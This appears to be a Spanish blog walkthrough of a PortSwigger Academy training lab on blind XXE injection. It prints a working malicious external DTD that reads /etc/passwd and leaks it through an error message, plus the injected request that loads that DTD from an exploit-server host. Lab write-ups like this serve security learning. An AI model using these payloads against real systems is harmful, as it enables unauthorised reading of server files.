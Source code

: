 +++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 6"
date = "2022-01-24"
description = "Lab: Exploiting blind XXE to retrieve data via error messages"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting blind XXE to retrieve data via error messages

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.

![Proceso de XXE](xxe-injection.svg)

## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador. Pero esta vez exfiltrando datos a travez de un DTD externo malicioso al que se conectara.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.

![Check stock](checkstock.png)

Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion para recuperar el stock del producto](request1.png)

## Explotacion

Sabiendo esto lo primero que haremos sera crear nuestra entidad DTD que estara alojada en un servidor web al cual luego se le hara referencia en la consulta enviada para poder inyectarla. Lo que hara esta entidad externa maliciosa es primero pedir el archivo que no existe y generara un error. El contenido es el siguiente:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Sabiendo esto haremos nuestra peticion pero referenciando a la entidad externa maliciosa alojada en el servidor. Ahora que ya hemos ejecutado vemos que podemos leer el archivo pero aparte el error generado por intentar leer el archivo que no existe

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acb21f3b1ee66c24c17b96bb01c60046.web-security-academy.net/exploit.dtd"> %xxe;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Realizando peticion para blind XXE referenciando a la entidad externa](request2.png)

Y con esto hemos resuelto el lab.

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
